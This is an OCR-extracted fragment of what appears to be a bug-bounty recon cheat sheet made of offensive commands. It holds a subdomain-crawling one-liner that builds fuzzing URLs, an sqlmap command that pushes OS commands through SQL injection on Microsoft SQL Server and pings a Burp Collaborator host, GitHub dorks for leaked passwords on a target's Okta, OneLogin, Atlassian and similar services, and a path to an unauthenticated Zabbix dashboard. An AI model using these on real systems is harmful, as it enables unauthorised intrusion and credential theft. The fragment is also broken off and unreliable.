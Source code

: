 cat subdomains.txt | gauplus -subs -t 100 -random-agent | sort -u --version-sort | httpx -silent -threads 2000 | grep -Eiv '(.eot|.jpg|.jpeg|.gif|.css|.tif|.tiff|.png|.ttf|.otf|.woff|.woff2|.ico|.svg|.txt|.pdf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -Eiv '\.js$|([^.]+)\.js|([^.]+)\.js\.[0-9]+$|([^.]+)\.js[0-9]+$|([^.]+)\.js[a-z][A-Z][0-9]+$' | sed 's/.*/&=FUZZ/g'); echo -e "\e[1;33m$url\e[1;32m$vars";done

```







SQLi:

	RCE:

```

sqlmap -r request.txt --force-ssl -p pramater --level 5 --risk 2 -dbms="Microsoft SQL Server" --os-cmd="ping http://your.burpcollaborator.net"

```





Github Recon:

	take a look and check:

	target.okta.com password 

	target.onelogin.com password 

	target.service-now password 

	target.atlassian.net password 

	target.jfrog.io password 

	target.sharepoint.com password





Zabbie dashboard without authentication:

```

/zabbix/zabbix.php?action=dashboard.list
